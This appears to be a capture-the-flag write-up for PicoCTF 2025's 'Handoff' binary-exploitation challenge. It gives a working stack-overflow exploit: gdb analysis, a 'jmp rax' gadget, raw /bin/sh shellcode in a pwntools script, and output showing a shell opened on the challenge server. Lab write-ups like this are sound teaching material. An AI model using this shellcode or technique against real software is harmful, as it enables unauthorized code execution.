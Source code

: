 ```yaml
---
title: Handoff
author: bytebrew
layout: writeup
category: PicoCTF-2025
chall_description:
points: 400
solves: 0
tags: Binary-Exploitation
date: 2025-03-09
comments: false
---
```


No description, no hints, very boring :(

---

# Initial Analysis
In the provided source we are given 3 main pieces of functionality: creating a recipient in an array (max of 32 bytes), creating a message for the array (we will not use this), and giving feedback (max of 32 bytes, vulnerable to a buffer overflow). The protections are pretty much non-existent in the compiled binary, but the stack addresses are randomized so we can't just jump to a known address in the stack.
# Obtaining Code Execution
When debugging with gdb, I found the following to occur when I trigger a buffer overflow:
```c
$rax   : 0x00007fffe8752544  →  0x0031313131313131 ("1111111"?)
$rbx   : 0x00007fffe8752688  →  0x00007fffe8752f22  →  "/mnt/share/handoff"
$rcx   : 0x00007f2b5e82da21  →  0x4f77fffff0003d48 ("H="?)
$rdx   : 0xfbad2288        
$rsp   : 0x00007fffe8752558  →  "11111111\n"
$rbp   : 0x3131313131313131 ("11111111"?)
$rsi   : 0x00000000231e52a1  →  "111111111111111111111111111\n"
$rdi   : 0x00007f2b5e90b720  →  0x0000000000000000
$rip   : 0x000000000040140e  →  <vuln+01e5> ret 
$r8    : 0x00000000231e52bd  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x1               
$r13   : 0x0               
$r14   : 0x00007f2b5e958000  →  0x00007f2b5e9592e0  →  0x0000000000000000
$r15   : 0x0
```
`rax` points to our input, which is executable. So, we can just jump to rax using the binary itself. Using cutter we can search for this gadget and find `jmp rax` at `0x40116c`.
```python
from pwn import *
r = process(elf.path)
r.sendline(b'3') # Select the 3rd option, exit and leave feedback
payload = b'\xeb\xfe'*int((20)/2) # basically a 2 byte loop, never exits, 20 bytes is the size before the RIP overwrite
payload += p64(4198764) # Address of jmp rax
print(len(payload))
r.sendline(payload)
r.interactive()
```
We can see that this does work, but now we have to achieve a shell.
# Exploitation, For Real This Time
Breaking at `0x4012f3`, we can intercept the first argument which will be the address of where the name is stored. The value is `0x7ffdd814b3e0` (will change if ran again). Than we can break at `0x4013e8` the exit function's fgets. The value stored there is `0x7ffdd814b6b4`. The offset is 724 bytes, so we can use the relative jump to jump 724 bytes back. After some tweaking the offset is actually 717 (idk why) and we have to pad our shell code. Finally, we have our solve script:
```python
from pwn import *
elf = context.binary = ELF('./handoff')

#r = remote('shape-facility.picoctf.net', 64512)
r = process(elf.path)

payload = b'1\n' # Add name 
payload += b'\x90\x90\x90\x90\x90\x90\x90\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05\n' # Add shellcode /bin/sh
payload += b'3\n' # Exit
payload += b'\xe9\x2e\xfd\xff\xff' + b'0' * 15 # Jump to shellcode
payload += p64(4198764) # Return address, points to jmp rax

r.sendline(payload)
r.interactive()
```
After making sure it works locally, we can test on the server:
```
[*] '/home/h/Downloads/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to shape-facility.picoctf.net on port 53879: Done
[*] Switching to interactive mode
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
What's the new recipient's name: 
What option would you like to do?
1. Add a new recipient
2. Send a message to a recipient
3. Exit the app
Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: 
$ ls
flag.txt
handoff
start.sh
$ cat flag.txt
picoCTF{p1v0ted_ftw_17db5315}
```
Based off the flag, this was an unintended solve!

